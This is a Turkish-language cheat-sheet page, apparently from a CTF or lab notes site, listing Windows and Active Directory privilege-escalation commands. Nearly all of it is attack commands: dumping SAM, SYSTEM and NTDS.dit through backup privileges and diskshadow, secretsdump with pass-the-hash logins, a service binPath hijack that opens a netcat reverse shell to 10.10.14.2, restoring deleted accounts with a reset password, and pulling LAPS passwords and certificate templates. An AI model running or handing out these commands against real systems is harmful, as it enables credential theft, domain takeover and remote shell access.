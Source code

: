```yaml
---
layout: page
title: "Administrator Olmak İçin"
permalink: /linux/to-domain-admin/
---
```



Silinen Kullanıcı
```bash
Get-ADObject -Filter {isDeleted -eq $true} -IncludeDeletedObjects -Properties * | Select-Object *
Tüm attributelarını gösterir. Silinen kullanıcıları görmek için:
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects 
```

Geri Getirmek için:
```bash
Restore-ADObject -Identity 938xxxxxxxxxxx
Enable-ADAccount -Identity cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "Abc123456@" -AsPlainText -Force)
```

SeBackupPrivilege ve SeRestorePrivilege yetkin varsa root olmadan root.txt okunabiliyor:
```bash
robocopy C:\Users\Administrator\Desktop C:\Users\path\Desktop root.txt /b /IS

!!! Administrator olmak için:
reg save hklm\sam sam
reg save hklm\system system

download sam
download system
secretsdump.py -sam sam -system system local
evil-winrm -i IP -u -H XXX ile giriş
```

Veya aynı yetkilerle admin olmak için 
```bash
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
 > bunlar src.txt  hedef makinede diskshadow /s src.txt diyorsun ardından E: sürücüsüne erişiyorsun.
 dir E:\
 robocopy E:\Windows\NTDS C:\Users\<ELE GEÇİRİLEN>\ NTDS.dit /b /IS
```


SeLoadDriverPrivilege yetkin varsa:
```bash
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"

sc.exe stop vss
sc.exe start vss
vss kullanma sebebimiz sistem tarafından çağrılıyor...
```


ConsoleHistory için: 
```bash
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

txt,flag aramak için:
```bash
Get-ChildItem -Path C:\Users -Recurse -Include *.txt,*.flag -ErrorAction SilentlyContinue
```

Exploit edilebilecek templateler için:
```bash
certipy-ad find -u 'username@test.local' -p 'YeniParola123..' -dc-ip 10.10.x.x

ldapsearch -x -H ldap://10.10.x.x -D "username@test.local" -w "YeniParola123.." -b "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=test,DC=local"

bunun ile certificate template bilgilerini çekebiliyoruz. Templateler kimin yetkisi olduğunu gösteriyor.
Yapacağımız bundan sonrası ESC1-4-8 vb. konulardan yürümek.
```

LAPS Kullanılıyorsa:
```bash
impacket-GetLAPSPassword test.local/test_user:'ŞİFRE1!!!' -dc-ip 10.10.X.X
```
